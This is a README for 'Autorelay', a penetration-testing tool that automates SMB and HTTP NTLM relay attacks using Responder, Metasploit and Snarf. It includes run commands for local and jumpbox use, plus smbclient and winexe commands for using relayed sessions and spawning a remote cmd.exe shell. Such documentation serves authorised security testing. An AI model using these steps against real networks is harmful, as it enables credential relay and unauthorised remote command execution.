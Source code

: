 # Autorelay

Automatically performs the SMB relay attack either locally or on a remote device. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. When using locally, only requires an interface and an nmap XML file of the target network to determine SMB hosts. When used for SMB relaying on a jumpbox, requires the IP address of the jumpbox.


## Usage

#####Local

* sudo ./autorelay.py -x local-network.xml -i eth0

#####Remote

* sudo ./autorelay.py -x remote-network.xml -i eth0 -r 95.34.53.243 

---


Point your local browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections


After a connection is expired (or you expire it), click "choose"


Run this command locally if relaying locally or run it on the jumpbox if you're relaying remotely: smbclient -U a%a //127.0.0.1


Alternatively, if you gain admin rights through the SMB connection spawn a shell with: winexe -U a%a //127.0.0.1 -U cmd.exe

